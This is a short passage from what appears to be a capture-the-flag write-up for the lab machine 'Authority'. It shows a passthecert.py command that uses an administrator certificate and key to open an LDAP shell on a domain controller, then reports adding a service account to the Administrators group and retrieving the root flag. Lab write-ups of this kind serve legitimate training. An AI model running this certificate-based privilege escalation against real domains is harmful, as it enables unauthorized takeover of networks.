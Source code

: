 I added the svc_ldap to Administrators group

```bash
passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
```

![image.png](image%2022.png)

Now **`svc_ldap`** is a member of **`Administrators`** group

![image.png](image%2023.png)

Retrieve the root flag
